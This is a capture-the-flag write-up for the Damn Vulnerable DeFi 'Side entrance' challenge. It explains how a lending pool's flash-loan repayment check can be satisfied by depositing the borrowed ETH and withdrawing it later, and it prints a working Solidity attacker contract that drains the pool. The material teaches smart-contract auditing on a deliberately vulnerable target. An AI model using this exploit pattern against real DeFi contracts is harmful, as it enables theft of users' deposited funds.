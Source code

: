 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #4 Solution — Side entrance'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2020-04-12T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #4  —  Side entrance

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/side-entrance)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/side-entrance/side-entrance.challenge.js)

## The attacker end goal

The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.

## Study the contracts

### `SideEntranceLenderPool`

The contract use `pragma solidity ^0.8.0;` so it will not be prone to math overflow/underflow

It has a `deposit` function where a supplier could send ETH. The function just account for your balance doing `balances[msg.sender] += msg.value;`. As we said, there’s no overflow/underflow problem given the Solidity version used.

It has a `withdraw` function that does not implement a Reentrancy guard, but it’s safe because it correctly follows the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#use-the-checks-effects-interactions-pattern) for which you update the internal state of the contract **before** any external interaction.  
In this function, the contract just get the account balance, reset it to 0 and send all the ETH back to the user.

The last function is the `flashLoan` one that takes only the `amount` to borrow as input parameter.

Inside the function the contract check that it has enough balance to allow the borrow operation, send the borrowed amount to the user calling `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` and finally check that after the loan has been executed the new balance (`address(_this_).balance`) is greater or equal of the old one (`balanceBefore`).

The issue with this contract is that they have two types of “accounting” system. One for the suppliers that can send and withdraw their ETH and another for the flash loans, that just take in considerations the balance of the contract but not the amount deposited on the user balances!

So, how could we take advantage of this issue?

## Solution code

First we need to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will

- Execute the flashloan
- Receive the funds implementing a `receive` function
- Deposit all the borrowed ETH into lending pool via the `deposit` function
- Repay back `0` ETH to the Lending Pool
- Withdraw all the deposited ETH from the Lending Pool
- Send to the attacker account the withdrawn ETH

How can this work? Well, because the Lending Pool allow us to `deposit` ETH it cannot (with the current implementation) know if those funds are from borrowed ETH or “normal” ETH.

So, when at the end of the `flashLoan` function it will check

`require(address(_this_).balance >= balanceBefore, “Flash loan hasn’t been paid back”);`

it will pass because we effectively deposited back all the borrowed ETH, with the exception that now we can withdraw them back because they have been accounted in our `balances[msg.sender]`

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor is IFlashLoanEtherReceiver {
    using Address for address payable;

    SideEntranceLenderPool pool;
    address owner;

    constructor(SideEntranceLenderPool _pool) {
        owner = msg.sender;
        pool = _pool;
    }

    function execute() external payable {
        require(msg.sender == address(pool), "only pool");
        // receive flash loan and call pool.deposit depositing the loaned amount
        pool.deposit{value: msg.value}();
    }

    function borrow() external {
        require(msg.sender == owner, "only owner");
        uint256 poolBalance = address(pool).balance;
        pool.flashLoan(poolBalance);

        // we have deposited inside the `execute` method so we withdraw the deposited borrow
        pool.withdraw();

        // now we transfer received pool balance to the owner (attacker)
        payable(owner).sendValue(address(this).balance);
    }

    receive () external payable {}
}
```

You can find the full solution on GitHub, looking at [SideEntranceLenderPool.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/side-entrance/SideEntranceLenderPool.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract SideEntranceLenderPooolTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
